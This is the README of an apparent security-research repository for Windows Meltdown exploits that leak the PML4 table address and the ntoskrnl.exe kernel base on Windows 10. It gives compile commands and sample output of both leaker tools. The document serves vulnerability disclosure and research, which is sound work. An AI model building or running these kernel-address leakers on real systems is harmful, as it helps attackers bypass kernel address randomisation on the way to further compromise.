 
# Windows Shadow leaking

This repository contains the Windows Meltdown exploits described in the [Windows Shadow leaking (via Meltdown) blogpost](https://labs.bluefrostsecurity.de/blog/2020/06/30/windows-shadow-leaking-via-meltdown/), which can be used to leak the PML4 table address and the "ntoskrnl.exe" base address in the latest "Windows 10" versions (RS7 and 20H1).

## Sources compilation

Using the Visual Studio 64-bit command line compiler, just follow the steps bellow:

For compiling the PML4 leaker:
- Execute `cl.exe pml4leak-melt.c`

For compiling the NT leaker:
- Execute `cl.exe ntleak-melt.c`

## Output examples

PML4 table address leaker output example:

```
C:\Users\Public>pml4leak-melt.exe

[+] Leaking PML4...
 [+] Try 0/10
[+] Elapsed time: 16 ms
[+] PML4: fffff178bc5e2000 (entry 1e2)

C:\Users\Public>
```

NT base address leaker output example in targets with RAM memory equal or higher than 4GB:

```
C:\Users\Public>ntleak-melt.exe
[+] Win10 build number: 19041
[+] RAM detected: 4GB

[+] Leaking PML4...
 [+] Try 0/10
[+] Elapsed time: 15 ms
[+] PML4: fffff178bc5e2000 (entry 1e2)

[+] Leaking NT base address...
 [+] PML4 entry found: fffff178bc5e2f80 (entry 0x1f0)
  [+] PDPT entry found: fffff178bc5f0000 (entry 0x0)
   [+] PD entry found: fffff178be0003e8 (entry 0x7d)
   [+] PD entry found: fffff178be000518 (entry 0xa3)
    [+] PT entry found: fffff17c000a3108 (entry 0x21)

[+] NT base delta: 0xa21000
[+] NT POINTER: 0xfffff80014621000
[+] NT BASE: 0xfffff80013c00000

[+] Elapsed time: 141 ms
[+] NT base address: 0xfffff80013c00000 (entry 0xa3)

C:\Users\Public>
```
